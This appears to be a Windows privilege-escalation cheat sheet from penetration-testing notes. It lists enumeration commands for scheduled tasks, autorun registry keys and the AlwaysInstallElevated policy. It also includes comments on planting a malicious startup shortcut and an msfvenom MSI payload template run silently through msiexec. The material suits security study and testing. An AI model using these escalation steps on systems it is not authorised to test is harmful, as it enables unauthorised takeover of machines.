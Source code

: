 ## Enumerate Scheduled Tasks

```powershell
# What scheduled tasks are there? Anything custom implemented?
schtasks /query /fo LIST 2>nul | findstr TaskName
schtasks /query /fo LIST /v
dir C:\windows\tasks

Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
```

## What is ran at startup?

```powershell
wmic startup get caption,command
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce
dir "C:\Documents and Settings\All Users\Start Menu\Programs\Startup"
dir "C:\Documents and Settings\%username%\Start Menu\Programs\Startup"

Get-CimInstance Win32_StartupCommand | select Name, command, Location, User | fl
Get-ItemProperty -Path 'Registry::HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run'
Get-ItemProperty -Path 'Registry::HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce'
Get-ItemProperty -Path 'Registry::HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run'
Get-ItemProperty -Path 'Registry::HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce'
Get-ChildItem "C:\Users\All Users\Start Menu\Programs\Startup"
Get-ChildItem "C:\Users\$env:USERNAME\Start Menu\Programs\Startup"

# If write access if provided to StartUp folder, use a vbs script to create a malicious shortcut and execute a custom binary
```

## Enumerate AlwaysInstallElevated and binaries that AutoElevate

```powershell
# Is AlwaysInstallElevated enabled? I have not ran across this but it doesn’t hurt to check.
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
	HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
	AlwaysInstallElevated REG_DWORD 0x1
reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer
	HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer
	AlwaysInstallElevated REG_DWORD 0x1

# If this setting is enabled, we could craft an MSI file and run it to elevate our privileges.
# msfvenom <payload> <lhost> <lport> -f msi -o exploit.msi
msiexec /quit /qn /i exploit.msi
```

